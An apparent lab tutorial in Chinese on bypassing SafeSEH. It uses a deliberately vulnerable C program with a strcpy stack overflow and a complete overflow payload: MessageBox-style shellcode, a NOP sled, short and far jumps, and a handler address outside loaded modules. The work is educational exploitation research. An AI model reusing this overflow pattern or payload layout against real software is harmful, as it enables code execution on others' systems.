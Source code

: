# Bypass SafeSEH through jumping into outside memory of loaded modules

**Author：wnagzihxain
Mail：tudouboom@163.com**

当异常处理函数在加载模块外时，SafeSEH是直接校验通过的

所以如果我们能找到一个跳转指令位于加载模块外，就可以绕过SafeSEH的校验
 
```
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	__try
	{
	    zero = 1/zero;
	}
	__except(MyException())
	{}
}

int main()
{
	__asm int 3
	test(shellcode);
	return 0;
}
```

VS2005，生成Release版本，禁用优化

首先用插件来找找有没有，插件是`OllyFindAddr`

![](Image/1.png)

选择`call [ebp+n]`，标注出来的就是加载模块之外的跳转地址

![](Image/2.png)

然后单步走完strcpy

![](Image/3.png)

观察此时栈布局，根据你的系统计算shellcode长度，在SEH防止跳板，然后调用异常的时候执行我们覆盖的跳板，接下来就会跳到nextSEH

nextSEH放置一个小跳转，往回跳10字节，在第二次跳转的位置放置一个大跳转，跳回shellcode起始地址

接下来解释下为什么这么放置指令：

首先我们的跳板存在`00`截断符，所以shellcode是不能放置在后面了，所以只能放置在前面，那么放置在前面我们只能控制它执行nextSEH

所以nextSEH处的指令至关重要，它要跳到shellcode的起始位置但是它只有4字节无法完成那么大的跳转

我们让它完成一个小跳转，跳10字节回去（这里是自己2字节加上8字节），然后在跳转回去的地址放置一个大跳转，那个大跳转就是跳回shellcode起始地址的关键

修改的代码是这样的
``` 
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"// machine code of far jump and \x90
"\xEB\xF6\x90\x90"// machine code of short jump and \x90
"\x0B\x0B\x28\x00"// address of call [ebp+30] in outside memory
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	__try
	{
	    zero = 1/zero;
	}
	__except(MyException())
	{}
}

int main()
{
	//__asm int 3
	test(shellcode);
	return 0;
}
```

来看看效果

![](Image/4.png)